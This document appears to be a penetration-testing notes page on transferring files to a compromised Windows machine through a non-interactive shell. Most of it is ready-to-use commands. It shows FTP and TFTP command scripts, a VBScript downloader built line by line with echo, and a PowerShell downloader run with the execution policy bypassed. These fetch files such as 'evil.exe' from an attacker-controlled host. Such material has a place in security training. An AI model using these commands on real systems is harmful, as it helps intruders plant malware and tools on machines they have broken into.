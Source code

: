 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.



## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most  likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp –v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srf/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

## VBScript

Here is a good script to make a wget-clone in VB.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```

You then execute the script like this: 
**cscript wget.vbs http://192.168.10.5/evil.exe evil.exe** 

The script works great and I found it at the this guys gist: https://gist.github.com/sckalath/ec7af6a1786e3de6c309


## Powershell

This is how we can download a file using powershell. Remember since we only have a non-interactive shell we can not start powershell.exe, because our shell can't handle that. But it is okay we can still run scripts in powershell.

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -
NoProfile -File wget.ps1
```
